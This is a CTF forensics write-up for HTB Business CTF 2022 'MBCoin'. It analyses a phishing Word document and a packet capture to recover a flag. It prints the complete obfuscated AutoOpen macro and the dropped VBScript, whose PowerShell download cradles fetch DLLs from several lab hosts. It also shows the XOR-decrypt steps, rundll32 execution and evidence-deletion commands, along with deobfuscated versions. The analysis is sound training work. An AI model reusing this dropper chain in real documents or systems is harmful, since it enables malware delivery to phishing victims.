


# HTB Business CTF 2022 - MBCoin

## Challenge

> We have been actively monitoring the most extensive spear-phishing campaign in recent history for the last two months. This campaign abuses the current crypto market crash to target disappointed crypto owners. A company's SOC team detected and provided us with a malicious email and some network traffic assessed to be associated with a user opening the document. Analyze the supplied files and figure out what happened.

- [forensics_mbcoin.zip](files/forensics_mbcoin.zip)
  - `mbcoin.doc`
  - `mbcoin.pcapng`

### Metadata

- Difficulty: `medium`
- Tags: `macro`, `vba`, `xor`, `dll`, `pcap`, `rundll32.exe`
- Points: `325`
- Number of solvers: `tbd`

## Solution

### A macro

First, we can start with `mbcoin.doc` as in `Lina's Invitation`.

`Olevba` shows that there is an `AutoOpen` macro in the document:

```bash
$ olevba mbcoin.doc
olevba 0.56 on Python 3.10.5 - http://decalage.info/python/oletools
===============================================================================
FILE: mbcoin.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: mbcoin.doc - OLE stream: 'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO bxh.bas
in file: mbcoin.doc - OLE stream: 'Macros/VBA/bxh'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub AutoOpen()
    Dim QQ1 As Object
    Set QQ1 = ActiveDocument.Shapes(1)
    Dim QQ2 As Object
    Set QQ2 = ActiveDocument.Shapes(2)
    RO = StrReverse("\ataDmargorP\:C")
    ROI = RO + StrReverse("sbv.nip")
    ii = StrReverse("")
    Ne = StrReverse("IZOIZIMIZI")
    WW = QQ1.AlternativeText + QQ2.AlternativeText
    MyFile = FreeFile
    Open ROI For Output As #MyFile
    Print #MyFile, WW
    Close #MyFile
    fun = Shell(StrReverse("sbv.nip\ataDmargorP\:C exe.tpircsc k/ dmc"), Chr(48))

    waitTill = Now() + TimeValue("00:00:05")
    While Now() < waitTill
    Wend
    MsgBox ("Unfortunately you are not eligable for free coin!")
    End

End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Output              |May write to a file (if combined with Open)  |
|Suspicious|Print #             |May write to a file (if combined with Open)  |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|StrReverse          |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
+----------+--------------------+---------------------------------------------+
```

After cleaning up the macro, removing the command execution part and replacing the output file path, we get the following:

```vb
Sub AutoOpen()
    Dim QQ1 As Object
    Set QQ1 = ActiveDocument.Shapes(1)
    Dim QQ2 As Object
    Set QQ2 = ActiveDocument.Shapes(2)
    FILE = "C:\Users\user\Desktop\pin.vbs"
    WW = QQ1.AlternativeText + QQ2.AlternativeText
    MyFile = FreeFile
    Open FILE For Output As #MyFile
    	Print #MyFile, WW
    Close #MyFile
End Sub
```

It reads the `AlternativeText` of two shapes in the document and writes it to `pin.vbs`. Let's run it on some Windows and analyze `pin.vbs`

### `pin.vbs`

`pin.vbs` contains the following code:

```vb
Dim WAITPLZ, WS, k, kl
WAITPLZ = DateAdd(Chr(115), 4, Now())
Do Until (Now() > WAITPLZ)
Loop

LL1 = "$Nano='JOOEX'.replace('JOO','I');sal OY $Nano;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://priyacareers.htb/u9hDQN9Yy7g/pt.html'',''C:\ProgramData\www1.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL2 = "$Nanoz='JOOEX'.replace('JOO','I');sal OY $Nanoz;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''https://perfectdemos.htb/Gv1iNAuMKZ/jv.html'',''C:\ProgramData\www2.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL3 = "$Nanox='JOOEX'.replace('JOO','I');sal OY $Nanox;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://bussiness-z.htb/ze8pCNTIkrIS/wp.html'',''C:\ProgramData\www3.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL4 = "$Nanoc='JOOEX'.replace('JOO','I');sal OY $Nanoc;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://cablingpoint.htb/ByH5NDoE3kQA/vm.html'',''C:\ProgramData\www4.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL5 = "$Nanoc='JOOEX'.replace('JOO','I');sal OY $Nanoc;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''https://bonus.corporatebusinessmachines.htb/1Y0qVNce/tz.html'',''C:\ProgramData\www5.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"


HH9="po"
HH8="wers"
HH7="h"
HH6="ell "
HH0= HH9+HH8+HH7+HH6
Set Ran = CreateObject("wscript.shell")
Ran.Run HH0+LL1,Chr(48)
Ran.Run HH0+LL2,Chr(48)
Ran.Run HH0+LL3,Chr(48)
Ran.Run HH0+LL4,Chr(48)
Ran.Run HH0+LL5,Chr(48)
Wscript.Sleep(5000)
MM1 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww1.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'gl'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'KO'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'X'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM2 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww2.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'pc'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Au'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'P'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]};  if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM3 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww3.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'WG'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'OL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'s'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM4 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww4.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'oN'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Py'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'G'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM5 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww5.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'IE'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'YL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'a'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"

Set Ran = CreateObject("wscript.shell")
Ran.Run HH0+MM1,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM2,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM3,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM4,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM5,Chr(48)

WScript.Sleep(15000)
OK1 = "cmd /c rundll32.exe C:\ProgramData\www.dll,ldr"
OK2 = "cmd /c del C:\programdata\www*"
OK3 = "cmd /c del C:\programdata\pin*"
Ran.Run OK1, Chr(48)
WScript.Sleep(1000)
Run.Run OK2, Chr(48)
Run.Run OK3, Chr(48)
```

1. Executes `$LL1`, `$LL2`, `$LL3`, `$LL4`, `$LL5` PowerShell commands with `Run`.
2. Executes `$MM1`, `$MM2`, `$MM3`, `$MM4`, `$MM5` PowerShell commands with `Run`.
3. Executes `$OK1`, `$OK2`, `$OK3` PowerShell commands with `Run`.

We should now understand the `$LL*`, `$MM*` and `$OK*` PowerShell commands.

`$LL1`: 
```powershell
$Nano='JOOEX'.replace('JOO','I');sal OY $Nano;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://priyacareers.htb/u9hDQN9Yy7g/pt.html'',''C:\ProgramData\www1.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;
```
Cleaned up:
```powershell
(New-Object Net.WebClient).DownloadFile("http://priyacareers.htb/u9hDQN9Yy7g/pt.html", "C:\ProgramData\www1.dll")
```

`$MM1`:
```powershell
$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww1.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'gl'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'KO'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'X'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}
```
Cleaned up:
```powershell
$enc_dll = [System.IO.File]::ReadAllBytes('C:\ProgramData\www1.dll')
$key = '6iIgloMk5iRYAw7ZTWed0CrjuZ9wijyQDjKO9Ms0D8K0Z2H5MX6wyOKqFxlOm1XpjmYfaQXacA6'
$dll = New-Object Byte[] $enc_dll.length;
for($i=0; $i -lt $enc_dll.length; $i++){
    $dll[$i] = $enc_dll[$i] -bxor $key[$i%$key.length]
};
if ($r.length -gt 0) {
    [System.IO.File]::WriteAllBytes('C:\programdata\www.dll', $dll)
}
```

1. The `$LL*` PowerShell commands download `www*.dll` files.
2. The `$MM*` PowerShell commands XORs the respective `DLL`s with a random `base64` key and writes the result to `www.dll`. `WriteAllBytes` always creates a new file, so only the last successfully downloaded `DLL` will decrypted to `www.dll`.
3. `$OK1` executes the `ldr` function of `www.dll`, `$OK2` and `$OK3` deletes all evidence.

Now, we have the encryption keys, but we don't have the `DLL`s. They might be in the capture.

### Finding the DLLs

In `Wireshark`, if we go to `File -> Export Objects -> HTTP`, we can easily export the `HTTP` responses from the capture without thinking.



Now we have `www1.dll` (from `/pt.html`) and `www4.dll` (from `vm.html`)

### Decrypting the DLLs

The encryption XOR keys for these DLLs are:
- `www1.dll`: `6iIgloMk5iRYAw7ZTWed0CrjuZ9wijyQDjKO9Ms0D8K0Z2H5MX6wyOKqFxlOm1XpjmYfaQXacA6`
- `www4.dll`: `6iIoNoMk5iRYAw7ZTWed0CrjuZ9wijyQDjPy9Ms0D8K0Z2H5MX6wyOKqFxlOm1GpjmYfaQXacA6`

Let's decrypt the files with Python:

```python
key2 = '6iIoNoMk5iRYAw7ZTWed0CrjuZ9wijyQDjPy9Ms0D8K0Z2H5MX6wyOKqFxlOm1GpjmYfaQXacA6'
dll2 = open('www4.dll.enc', 'rb').read()
dll2_decoded = b''
for a, b in zip(dll2, cycle(key2)):
        dll2_decoded += (a ^ ord(b)).to_bytes(1, 'little')
assert(dll2_decoded[:2] == b'MZ')
with open('www4.dll', 'wb') as outfile:
        outfile.write(dll2_decoded)
```

```
$ file www1.dll     
www1.dll: MS-DOS executable
$ file www4.dll     
www4.dll: PE32+ executable (DLL) (GUI) x86-64, for MS Windows
```

### `ldr` and `MessageBoxW`

We can load `www4.dll` in `Ghidra` and in the `Exports` there is the `ldr` function:



Basically this function opens a message box with the flag. Of course the flag can also be found with `strings`.

```bash
$ strings -e l vm.dll
Congratulations!
HTB{wH4tS_4_sQuirReLw4fFl3?}
```

Flag: `HTB{wH4tS_4_sQuirReLw4fFl3?}`

### Files

- [forensics_mbcoin.zip](files/forensics_mbcoin.zip): Challenge files
  - `mbcoin.doc`
  - `mbcoin.pcapng`
- [pin.vbs](files/pin.vbs): Macro created VBS script
- [www1.dll.enc](files/www1.dll.enc): First encrypted binary from the capture
- [www1.dll](files/www1.dll): First binary decrypted
- [www4.dll.enc](files/www4.dll.enc): Second encrypted binary from the capture
- [www4.dll](files/www4.dll): Second binary decrypted, containing the flag